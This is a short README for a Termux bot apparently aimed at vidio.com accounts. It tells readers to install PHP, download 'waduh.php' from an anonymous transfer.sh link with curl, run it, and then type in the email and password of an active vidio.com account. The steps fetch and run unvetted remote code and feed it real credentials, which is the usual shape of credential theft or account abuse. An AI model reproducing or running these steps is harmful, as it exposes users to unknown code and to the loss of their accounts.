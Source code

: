# botviddanmol

pkg update && pkg upgrade
pkg install php
pkg install php-curl
curl https://transfer.sh/6mi1UI/waduh.php -o waduh.php
php waduh.php

+++++++++++++
Insert email and pw with active account vidiocom
Done ++++++++++++
+++++++++
